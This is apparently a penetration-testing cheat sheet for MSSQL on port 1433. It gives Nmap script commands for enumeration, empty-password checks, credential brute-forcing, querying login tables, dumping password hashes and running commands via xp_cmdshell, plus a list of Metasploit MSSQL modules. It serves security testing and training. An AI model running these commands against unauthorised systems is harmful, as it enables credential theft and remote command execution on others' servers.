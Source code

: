 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 1433 -> MSSQL

## Nmap Scripts

The example command for enumerating _<mark style="color:green;">Microsoft-SQL</mark>_ (MSSQL) with Nmap is here.

```bash
# Enum version/info mssql
sudo nmap -p1433 --script=ms-sql-info $IP

# Enum target/domain/netbios name
sudo nmap -p1433 --script=ms-sql-ntlm-info --script-args mssql.instance-port=1433 $IP

# Enum mssql for empty password
sudo nmap -p1433 --script=ms-sql-empty-password $IP

# Bruteforcing user/password
sudo nmap -p1433 --script=ms-sql-brute --script-args userdb=/wordlists/user.txt,passdb=/wordlists/password.txt $IP

# Query the login users with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=password123,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt $IP

# Query the sysusers with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=password123,ms-sql-query.query="SELECT * FROM master..sysusers" -oN output.txt $IP

# Dump hashes with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=password123 $IP

# Execute command with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=password123,ms-sql-xp-cmdshell.cmd="ipconfig" $IP
```

## MSFconsole

is a framework that holds many exploits, backdoors, scanners, etc. This is also known as _<mark style="color:green;">Metasploit</mark>_, by default, it is installed on Kali Linux.

```bash
auxiliary/scanner/mssql/mssql_login
auxiliary/admin/mssql/mssql_enum
auxiliary/admin/mssql/mssql_enum_sql_logins
auxiliary/admin/mssql/mssql_exec
auxiliary/admin/mssql/mssql_enum_domains_accounts
```
